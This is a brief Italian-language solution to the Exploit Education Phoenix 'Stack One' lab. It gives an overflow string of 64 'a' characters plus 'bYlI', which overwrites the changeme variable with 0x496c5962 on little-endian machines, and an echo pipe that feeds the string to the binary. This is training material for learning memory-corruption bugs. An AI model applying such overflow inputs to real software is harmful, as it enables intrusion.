 # [Stack One](https://exploit.education/phoenix/stack-one/)

Inserire `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabYlI` come input. 

`bYlI` manda `buffer` in overflow, impostando il valore di `changeme` ad `"bYlI"`, ovvero `0x496c5962` (***in architetture little-endian***).

## Soluzione

```bash
echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabYlI' | ./stack-one
```